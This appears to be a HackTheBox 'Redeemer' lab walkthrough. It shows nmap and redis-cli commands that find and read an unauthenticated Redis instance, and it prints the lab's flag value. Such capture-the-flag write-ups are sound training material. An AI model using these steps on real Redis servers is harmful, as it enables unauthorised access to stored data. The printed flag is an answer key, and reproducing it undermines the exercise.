 # HTB – Redeemer Walkthrough

## Target IP
`10.129.196.208`

## Tools Used
- nmap
- redis-cli

## Enumeration

```bash
 nmap -p- -sV 10.129.196.208
```

Discovered: 6379/tcp open with Redis service running

## Redit Enumeration

Connected to Redis:

```bash
 redis-cli 10.129.196.208
```

Once Connected: 

```bash
info
```
The keyspace section provides information on the main dictionary of each database. The stats also show the number of keys and their expiration if there are any.

Then we the Redis database by using the select command.

```bash
select 0
```

Displayed all keys in the database by running the keys command

```bash
keys *
```

And finally, we can view the values stored for each key shown, and using the get command we can view them

```bash
get flag
```

## Flag Summary

03e1d2b376c37ab3f5319922053953eb

Rooted.
